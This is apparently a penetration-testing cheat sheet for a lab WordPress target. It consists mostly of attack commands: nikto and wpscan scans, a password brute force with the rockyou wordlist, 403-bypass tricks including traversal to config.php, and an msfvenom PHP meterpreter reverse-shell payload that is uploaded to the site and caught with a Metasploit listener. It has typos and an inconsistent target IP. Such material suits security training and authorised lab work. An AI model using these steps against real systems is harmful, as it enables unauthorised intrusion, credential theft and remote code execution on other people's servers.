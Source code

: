  - nikto - Scan web server for known vulnerabilities
   - nikto -h
   - nikto -host <target ip>
   - nikto -host 192.168.1.36 -port 12380

 - wpscan - WordPress Security Scanner
   - wpscan --url https://192.168.1.36:12380/blogblog/ -e vp -e vt -e u
   - wpscan --url https://192.168.1.36:12380/blogblog/ -e vp -e vt -e u --disable-tls-checks
   - wpscan --url https://192.168.1.36:12380/blogblog/ -U john -P /usr/share/wordlists/rockyou.txt --disable-tls-checks
   - after password cracked go on the targeted website and login.

## How to Bypass 403 restrictions

 - Adding in URL Paths: Adding this in paths of the URL and the file which is forbidden
   - /_ (EX: xyz.com/secret/_)
   - /%2f/ (EX: xyz.com/%2f/secret.txt/)
   - /./ (EX: xyz.com/secret/./)
   - // (EX: xyz.com//secret)
   - /_/ (EX: xyz.com/secret/_/)
 - Adding Headers in request :By adding different headers in request with value 127.0.0.1 can also help in bypassing restrictions.
   - X-Custom-IP-Authorization
   - X-Forwarded-For
   - X-Forward-For
   - X-Remote-IP
   - X-Originating-IP
   - X-Remote-Addr
   - X-Client-IP
   - X-Real-IP
 - New 403 Bypass
   - Download.php?file=../config.php ==> 403
   - Download.php?file=. /config.php⨀ ==> 200
   - Download.php?file=⊡ /config.php⨀ ==> 200
   - Download.php?file= .⊡ /config.php ==> 200

 - msfvenom - a Metasploit standalone payload generator.
   - Also, a replacement for msfpayload and msfencode.
   - It is use for creating a payload.
   - Payload is a malware or a malicious code that the threat actor intends to deliver to the victim.
   - msfvenom -p php/mererpreter/reverse_tcp LHOST=192.168.1.2 LPORT=1337 -f raw
   - will get a raw payload code.
   - Remove /_ from the beginning and create .php file.
   - And then upload these .php file in the target’s plugins.
   - Before executing this payload file. We need to create listener
   - Msfconsole
   - msf6 > use exploit/multi/handler
   - `> set LHOST 192.168.1.2`
   - `> set LPORT 1337`
   - `> set payload php/meterpreter/reverse_tcp`
   - `> run`
   - Now the Listener is started to u can execute the .php file that you have uploaded to the target server https://192.168.1.35:12380/blogblog/wp-content/uploads/
   - meterpreter > shell
